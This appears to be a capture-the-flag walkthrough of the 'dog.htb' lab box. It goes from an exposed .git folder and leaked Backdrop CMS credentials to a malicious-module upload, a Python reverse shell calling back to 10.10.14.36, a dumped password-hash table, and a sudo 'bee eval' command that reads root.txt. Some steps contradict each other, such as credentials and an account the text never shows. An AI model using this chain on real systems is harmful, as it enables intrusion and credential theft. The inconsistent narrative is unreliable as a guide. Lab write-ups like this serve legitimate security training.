 Port 22 and 80 open

/.git/ exposed, so download with git-dumper. 

On grepping for dog.htb I found this
```
tiffany@dog.htb
dog@dog.htb
```
Now settings.php contained creds:
```
root:BackDropJ2024DS2024
```

Soo using these creds login to the site as admin.

Go to functionality > install module > Manual install

Here use this exploit to install a malicious module enabling rce
[exploitdb](https://www.exploit-db.com/exploits/52021)

This will create a .zip which is not installable, but it creates the raw folder, so zip it into tar.gz and install it.

Now go to modules/shell/shell.php and start rce lol.

Use this for reverse shell:
```python
export RHOST="10.10.14.36";export RPORT=4444;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```
```
+-----+-------------------+---------------------------------------------------------+
| uid | name              | pass                                                    |
+-----+-------------------+---------------------------------------------------------+
|   0 |                   |                                                         |
|   1 | jPAdminB          | $S$E7dig1GTaGJnzgAXAtOoPuaTjJ05fo8fH9USc6vO87T./ffdEr/. |
|   2 | jobert            | $S$E/F9mVPgX4.dGDeDuKxPdXEONCzSvGpjxUeMALZ2IjBrve9Rcoz1 |
|   3 | dogBackDropSystem | $S$EfD1gJoRtn8I5TlqPTuTfHRBFQWL3x6vC5D3Ew9iU4RECrNuPPdD |
|   5 | john              | $S$EYniSfxXt8z3gJ7pfhP5iIncFfCKz8EIkjUD66n/OTdQBFklAji. |
|   6 | morris            | $S$E8OFpwBUqy/xCmMXMqFp3vyz1dJBifxgwNRMKktogL7VVk7yuulS |
|   7 | axel              | $S$E/DHqfjBWPDLnkOP5auHhHDxF4U.sAJWiODjaumzxQYME6jeo9qV |
|   8 | rosa              | $S$EsV26QVPbF.s0UndNPeNCxYEP/0z2O.2eLUNdKW/xYhg2.lsEcDT |
|  10 | tiffany           | $S$EEAGFzd8HSQ/IzwpqI79aJgRvqZnH4JSKLv2C83wUphw0nuoTY8v |
+-----+-------------------+---------------------------------------------------------+
```

This is the standard MySQL table, that I found using the older root:whateverthefuck credentials.
By reading /etc/passwd, I simply will crack the password to jobert.

So I tried this, it didnt work, instead I ended up using the johncusack account with the password I currently have

Now on running sudo -l you can see that it runs `/usr/local/bin/bee`

So i poked around the help menu and arrived at this for reading `root.txt`

```bash
sudo /usr/local/bin/bee --root=/var/www/html eval 'system("cat /root/root.txt");'
```
That's it time to skedaddle :).

